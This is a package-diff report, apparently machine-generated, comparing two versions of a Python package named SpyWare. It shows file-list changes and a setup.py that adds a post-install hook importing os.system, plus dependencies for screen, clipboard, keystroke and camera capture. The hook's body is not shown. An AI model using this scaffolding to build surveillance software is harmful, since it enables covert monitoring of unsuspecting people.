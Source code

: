  * *Files identical despite different names*

### Comparing `SpyWare-1.0.4/SpyWare.egg-info/SOURCES.txt` & `SpyWare-1.0.5/SpyWare.egg-info/SOURCES.txt`

 * *Files 8% similar despite different names*

```diff
@@ -2,19 +2,22 @@
 MANIFEST.in
 PyAudio-0.2.11-cp310-cp310-win32.whl
 PyAudio-0.2.11-cp310-cp310-win_amd64.whl
 PyAudio-0.2.11-cp38-cp38-win32.whl
 PyAudio-0.2.11-cp38-cp38-win_amd64.whl
 PyAudio-0.2.11-cp39-cp39-win32.whl
 PyAudio-0.2.11-cp39-cp39-win_amd64.whl
+PyAudio-0.2.13-cp311-cp311-win32.whl
+PyAudio-0.2.13-cp311-cp311-win_amd64.whl
 README.md
 SpyWare.ico
 compilateur.bat
 compile.bat
 file_version_info.txt
+setup.cfg
 setup.py
 SpyWare/SpyWare.py
 SpyWare/__init__.py
 SpyWare/__main__.py
 SpyWare.egg-info/PKG-INFO
 SpyWare.egg-info/SOURCES.txt
 SpyWare.egg-info/dependency_links.txt
```

### Comparing `SpyWare-1.0.4/SpyWare.ico` & `SpyWare-1.0.5/SpyWare.ico`

 * *Files identical despite different names*

### Comparing `SpyWare-1.0.4/file_version_info.txt` & `SpyWare-1.0.5/file_version_info.txt`

 * *Files identical despite different names*

### Comparing `SpyWare-1.0.4/setup.py` & `SpyWare-1.0.5/setup.py`

 * *Files 2% similar despite different names*

```diff
@@ -1,14 +1,22 @@
 from sys import maxsize, executable, version_info
 from setuptools.command.install import install
 from setuptools import setup, find_packages
 from os import system as exec_command
 from platform import system
 
 
+packages = [
+    "pyautogui",
+    "opencv-python",
+    "pillow",
+    "pyperclip",
+    "pynput",
+]
+
 class PostInstallScript(install):
```